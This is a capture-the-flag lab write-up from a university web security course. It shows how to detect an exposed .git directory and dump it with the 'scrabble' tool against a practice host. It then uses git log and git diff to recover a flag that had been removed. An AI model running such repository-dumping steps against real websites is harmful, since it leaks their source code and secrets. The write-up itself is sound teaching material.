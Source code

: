 ```yaml
---
title: Simple Web 0x01(Lab - `gitleak`)
tags: [CTF, Web, NTUSTWS]

category: "Security/Course/NTUST WS/Information Leak"
---
```


# Simple Web 0x01(Lab - `gitleak`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9000/

## Exploit - gitleak + basic Git command
1. Use the extension of Firefox(or Google), `Dotgit`, to check if the website actually has `git leak problem`
![](https://i.imgur.com/ZtMbj9z.png)

2.  denny0223/scrabble
To use scrabble tool to leak information
    ```bash!
    $ git clone https://github.com/denny0223/scrabble.git
    $ cd scrabble
    $ sudo ./scrabble http://h4ck3r.quest:9000/
    ```
3. Still no flag
There's `flag.php` but still no flag in there. `HEAD` said `HEAD is now at a0228bd Remove flag.`
Thus, we can look up the history by the command below.
    ```bash!
    $ git log --stat a0228bd
    commit a0228bd6ff968f3eca017125a5434b517ad2a83a (HEAD -> master)
    Author: splitline <tbsthitw@gmail.com>
    Date:   Wed Mar 9 16:23:46 2022 +0800

        Remove flag.

     flag.php | 2 +-
     1 file changed, 1 insertion(+), 1 deletion(-)

    commit 6cfe38db75ec90126f53088ea87c286c83c1bfb3
    Author: splitline <tbsthitw@gmail.com>
    Date:   Wed Mar 9 16:23:15 2022 +0800

        Init

     flag.php  | 5 +++++
     index.php | 1 +
     2 files changed, 6 insertions(+)
    ```
4. Check the difference of commit version
    ```bash!
    $ git diff HEAD <commit-id>
    diff --git a/flag.php b/flag.php
    index d1f8785..5b6cf79 100644
    --- a/flag.php
    +++ b/flag.php
    @@ -1,5 +1,5 @@
     <?php
    -// No flag for you!
- [ ]     +$FLAG = "FLAG{gitleak_is_fun}";
     ?>

     Flag is in the source code.
    \ No newline at end of file
    ```